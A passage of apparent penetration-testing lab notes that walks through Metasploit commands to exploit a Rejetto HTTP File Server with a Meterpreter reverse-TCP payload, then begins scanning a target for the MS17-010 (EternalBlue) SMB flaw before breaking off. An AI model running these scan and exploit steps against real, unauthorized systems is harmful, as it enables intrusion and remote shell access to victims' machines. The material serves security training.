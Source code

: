 ## 5. Exploitation - Windows

### 5.1. Exploiting A Vulnerable HTTP File Server

An HTTP File Server (HFS) is a server application that facilitates file sharing over the HTTP protocol. It allows users to upload, download, and manage files via a web interface. HFS can be used for both personal and professional purposes to share files easily over a network.

**Objective:** Exploit the application and retrieve the flag!

```shell
# Start PostgreSQL (required for Metasploit's database functionality) and launch Metasploit
service postgresql start
msfconsole

# Check if the database is connected
db_status

# Create and switch to a dedicated workspace for HFS exploitation
workspace -a HFS
workspace

# Set the target IP globally for all modules
setg RHOSTS <target-ip>

# Perform an aggressive Nmap scan to detect open ports, services, and OS details
db_nmap -sS -sV -O <target-ip>

# Identify that an HTTP File Server (HFS) is running on port 80

# Search for an exploit related to Rejetto HFS
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
show options
info  # Display module details
# The payload we will use is 'windows/meterpreter/reverse_tcp' since it's not specified by default
run

# Verify session access
sysinfo
```

### 5.2. Exploiting Windows MS17- 010 SMB Vulnerability 

```shell
# Start Metasploit
msfconsole

# Create and switch to a dedicated workspace for EternalBlue exploitation
workspace -a EternalBlue

# Perform an Nmap scan to detect open ports, services, and OS details
db_nmap -sS -sV -O <target_IP>

# Identify SMB running on port 445
services

# Search for auxiliary modules related to EternalBlue
search type:auxiliary EternalBlue

# Use the SMB vulnerability scanner to check if the target is vulnerable to MS17-010
use auxiliary/scanner/smb/smb_ms17_010
show options
set RHOSTS <target_IP>
```